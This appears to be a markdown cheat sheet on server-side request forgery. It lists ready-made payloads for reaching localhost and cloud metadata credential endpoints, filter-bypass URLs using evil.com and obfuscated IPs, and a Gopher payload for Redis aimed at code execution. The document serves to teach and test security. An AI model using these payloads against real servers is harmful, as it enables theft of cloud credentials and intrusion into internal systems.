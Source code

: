 ## 📌 1. What is SSRF (Advanced Definition)

**SSRF** occurs when an attacker can control or manipulate the server’s HTTP requests. Instead of the server fetching remote content securely, it is tricked into:

- Accessing **internal networks**
    
- Hitting **localhost services**
    
- Interacting with **cloud provider metadata endpoints**
    
- Scanning ports
    
- Sending arbitrary requests to arbitrary destinations
    

The vulnerability exists because the server **trusts itself**, so internal services that are otherwise protected can become accessible.

---

## 🧩 2. SSRF Variants

| Type                        | Description                                                           |
| --------------------------- | --------------------------------------------------------------------- |
| **Basic SSRF**              | Attacker controls URL or request endpoint directly                    |
| **Blind SSRF**              | No response is shown to attacker; requires OAST/interactions          |
| **Out-of-Band SSRF**        | Requires DNS logging, Collaborator, or Burp Suite Repeater            |
| **Second-order SSRF**       | Input is stored and used in a future server-side request              |
| **SSRF to RCE**             | SSRF used to reach internal services like Redis, Gopher, etc. for RCE |
| **Protocol Smuggling SSRF** | Using FTP, Gopher, or file:// to escalate exploitation                |

---

## 🧪 3. Advanced SSRF Payloads

### 🔹 Internal IP Access

`http://127.0.0.1/ http://localhost:80/ http://0x7f000001/ http://2130706433/ http://[::1]/`

### 🔹 Cloud Metadata Endpoints

#### AWS:

ruby
`http://169.254.169.254/latest/meta-data/ http://169.254.169.254/latest/meta-data/iam/security-credentials/`

#### GCP:

bash
`http://metadata.google.internal/computeMetadata/v1/instance/`

#### Azure:

arduino

`http://169.254.169.254/metadata/instance?api-version=2021-02-01`

_Use required headers like `Metadata: true` for Azure & GCP_

---

## 🎯 4. Bypass Techniques (Advanced)

### 🧨 IP Obfuscation

`127.0.0.1        → Decimal: 2130706433                  → Hex: 0x7f000001                  → Octal: 0177.0.0.1`

### 🧨 DNS Rebinding

Use an attacker-controlled DNS to resolve to internal IP:
`attacker.evil.com → 127.0.0.1 (via manipulated DNS)`

### 🧨 URL Parsing Bugs
`http://127.0.0.1@evil.com
`http://evil.com#@127.0.0.1`
`http://127.0.0.1%09.evil.com`
### 🧨 Redirect Chains
`http://trusted.com/redirect?url=http://internal/`

---

## 💣 5. SSRF to RCE & Privilege Escalation

### 🔥 Targeting Internal Services

- **Redis** (write crontab or SSH key)
    
- **Elasticsearch** (scripts)
    
- **MongoDB** (internal API exposure)
    
- **Docker APIs** (`http://localhost:2375/containers/json`)
    
- **Kubernetes API** (`http://localhost:8001` or cloud metadata for kube tokens)
    

### 🔥 Gopher Protocol (RCE)

Gopher can allow sending **custom binary payloads**, often to internal services like Redis:

`gopher://127.0.0.1:6379/_%0D%0ASET%20mykey%20evilvalue%0D%0A`

---

## 📷 6. Blind SSRF Detection Techniques

- **Burp Collaborator** / **Interactsh**
    
- DNS logging platforms like:
    
    - `dnslog.cn`
        
    - `requestbin`
        
    - `webhook.site`
        
- Log monitoring (cloud logs, WAF logs)
    
- Timing attacks: if the endpoint delays = request likely went through
    

---

## ⚙️ 7. Automation Tools for SSRF

|Tool|Description|
|---|---|
|**SSRFmap**|Automates SSRF against common services|
|**Gopherus**|Generates Gopher payloads|
|**Burp Suite**|Use Collaborator and repeater|
|**Interactsh**|OOB testing|
|**ffuf / wfuzz**|Fuzz SSRF parameters|

